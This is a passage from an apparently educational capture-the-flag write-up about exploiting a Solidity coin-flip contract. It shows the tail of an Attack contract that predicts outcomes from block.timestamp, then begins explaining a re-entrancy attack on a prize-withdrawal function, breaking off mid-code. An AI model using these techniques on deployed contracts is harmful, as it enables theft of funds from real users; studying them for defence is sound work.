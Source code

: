 ```solidity
        require(address(this).balance >= 1 ether, "Send contract some ether");
        RollsRoyce.CoinFlipOption result = flipCoin();
        victim.guess{value: 1 ether}(result);
        victim.revealResults();
    }
}
```
Essentially, the `win()` function basically tries to call `guess()` and `revealResults()` in the same transaction, therefore making `block.timestamp` a deterministic value which allows us to predict the result of the `flipCoin()` function and making an accurate `guess()`.

We can then deploy this `Attack` contract and transfer some ether to it. We can verify that our `win()` function is indeed working as intended by calling the function multiple times and verifying against the `viewWins()` function in the deployed RollsRoyce contract as shown below

![image](https://user-images.githubusercontent.com/33711159/172994068-ec4c683c-64df-4d5f-89c4-19c772dbc399.png)

Great! We have a surefireway to win the coin flips now by exploiting the usage of a predictable `block.timestamp`!

## Exploit 2 - Re-entrancy Attack

A classic attack when it comes to exploiting smart contracts - a re-entrancy attack in short basically exploits the idea of a victim contract blindly makes an external call to a malicious contract. In this challenge, the re-entrancy attack was exploitable through the `withdrawFirstWinPrizeMoneyBonus()` function as shown below:
```solidity
function withdrawFirstWinPrizeMoneyBonus() external {
    require(
        !claimedPrizeMoney[msg.sender],
        "You have already claimed the first win bonus"
    );
    playerPool[msg.sender] += 1 ether;
    withdrawPrizeMoney(msg.sender);
    claimedPrizeMoney[msg.sender] = true;
}
```
When a player calls the `withdrawFirstWinPrizeMoneyBonus()` after winning the game, the contract will essentially add an additional 1 ether to the player's prize pool via `playerPool[msg.sender] += 1 ether`. The thing is, this function can only be called once by the player as seen in the first statement `require(!claimedPrizeMoney[msg.sender]`. `claimedPrizeMoney[msg.sender]` gets set to `true` at the end of the function in the last line, after `withdrawPrizeMoney()`.

Now let's look at what `withdrawPrizeMoney()` does:
```solidity
function sendValue(address payable recipient, uint256 amount) internal {
    require(
        address(this).balance >= amount,
        "Address: insufficient balance"
    );

    (bool success, ) = recipient.call{value: amount}("");
}

function withdrawPrizeMoney(address _to) public payable {
    require(
        msg.sender == _to,
        "Only the player can withdraw the prize money"
    );
    require(
        playerConsecutiveWins[_to] >= 3,
        "You need to win 3 or more consecutive games to claim the prize money"
    );

    if (playerConsecutiveWins[_to] >= 3) {
```